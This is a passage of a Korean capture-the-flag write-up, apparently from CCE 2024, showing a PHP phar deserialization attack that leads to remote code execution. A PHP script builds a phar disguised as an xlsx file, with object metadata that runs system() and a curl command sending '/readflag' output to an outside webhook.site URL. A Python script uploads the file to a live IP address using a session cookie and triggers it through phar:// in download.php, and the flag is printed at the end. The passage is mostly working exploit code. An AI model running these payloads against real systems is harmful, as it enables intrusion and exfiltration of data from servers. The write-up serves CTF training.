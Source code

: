 ```php
$phar = new Phar('payload.phar');
$phar->startBuffering();
$phar->setStub("<?php __HALT_COMPILER(); ?>");

$object = new JobManager('1234', 'system', ['curl -X POST -d "$(/readflag)" https://webhook.site/5fd286af-764f-487b-b21c-9f8421a10eb9']);
$phar->setMetadata($object);
$phar->stopBuffering();
system("mv payload.phar payload.xlsx");
readfile("phar://payload.xlsx");
# php --define phar.readonly=0 payload.php
?>
```      
JobManager 클래스에서 `$allowCallbackList` 배열 값을 `system`으로 변경해주고, `call_user_func_array()` 함수에서 `system()` 함수를 호출해주면 된다.   
     
```python
import requests 
import re

url = "http://52.231.191.39"

fd = open("payload.xlsx", "rb")
payload = fd.read() 
fd.close() 

cookies = {"PHPSESSID": "8f3d5bf76936727f6fbcd09adadaec45"}

r = requests.post(
    f"{url}/admin/upload_process.php", 
    cookies=cookies,
    files={
        'file': ('test.xlsx', payload, 'application/x-phar')
    },
    data={
        'contentType': 'html'
    }
)
print(r.text)

m = re.search(r'\"(/tmp/[^\"]+\.xlsx)\"', r.text)

if m:
    file_path = m.group(1)
    print("추출된 경로:", file_path)

r = requests.get(
    f"{url}/admin/download.php",
    cookies=cookies,
    params={
        "path":"phar://" + file_path 
    },
    allow_redirects=False
)
print(r.text)
```

생성한 xlsx 파일을 업로드하고 `phar://`를 활용해 다운로드 해주면 RCE가 가능해진다.         

## Flag    
cce2024{15b0b949c6234b41be4ca85fe02b04cec64d84c0213aaf882b2c2e28f29f637a}    

